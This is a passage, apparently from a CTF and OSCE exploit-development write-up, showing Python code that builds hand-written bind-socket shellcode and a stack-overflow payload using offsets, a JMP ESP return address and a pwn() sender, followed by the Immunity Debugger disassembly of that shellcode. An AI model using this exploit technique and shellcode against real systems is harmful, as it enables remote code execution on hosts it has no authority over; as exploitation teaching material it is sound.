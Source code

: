``` python
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference bind
block1 += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the bind call
block1 += "\x6A\x10"                           # PUSH 0x10
block1 += "\x51"                               # PUSH ECX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `bind`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
```

And with this script invoked, we see the following shellcode in Immunity:

``` txt
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
00B5FFE3   50               PUSH EAX
00B5FFE4   FFD3             CALL EBX
```


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux